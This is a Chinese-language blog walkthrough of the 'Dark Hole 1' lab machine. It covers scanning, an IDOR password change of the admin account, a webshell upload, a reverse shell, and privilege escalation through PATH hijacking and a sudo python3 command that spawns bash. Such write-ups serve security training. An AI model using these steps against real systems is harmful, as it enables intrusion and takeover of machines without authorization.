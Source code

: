 ```yaml
---
layout: post
title: Dark Hole 1
subtitle: Dark Hole 1
date: 2025-07-14 16:49
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

主机扫描，发现ip `192.168.163.134`

![image.png](https://img.ghostliner.top/PEjCUd.png)

端口扫描，发现80和22端口

![image.png](https://img.ghostliner.top/H6fI3e.png)

扫描目录

```shell
dirb http://192.168.163.134
nikto -h 192.168.163.134
```

发现目录：

```
http://192.168.163.134/config/
http://192.168.163.134/upload/
http://192.168.163.134/login.php
```

对站点进行指纹识别，无发现，bp爆破用户名密码失败

尝试注册成功

登陆成功后地址为: http://192.168.163.134/dashboard.php?id=2

遍历页面id无效，只有一个页面，可以更改用户名、邮件和密码，sqlmap测试密码时发现隐藏字段id参数，bp遍历id尝试更改其他用户密码。

admin登录成功，可以上传文件

上传一句话木马，经测试可以上传 `shell.phtml`

蚁剑连接，反弹shell

![image.png](https://img.ghostliner.top/GvKSmS.png)

![image.png](https://img.ghostliner.top/7dwDHN.png)

![image.png](https://img.ghostliner.top/fyi8kc.png)

toto疑似使用 `id`命令，更改环境变量修改为我们自定义的 `id`命令

```shell
echo '/bin/bash' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
./toto
```

获取到密码

![image.png](https://img.ghostliner.top/Wva3ra.png)

![image.png](https://img.ghostliner.top/MtRwdk.png)

![image.png](https://img.ghostliner.top/D6WblV.png)

```shell
echo 'import os;os.system("/bin/bash")' > file.py
sudo /usr/bin/python3 /home/john/file.py
```

![image.png](https://img.ghostliner.top/Ifoh5M.png)
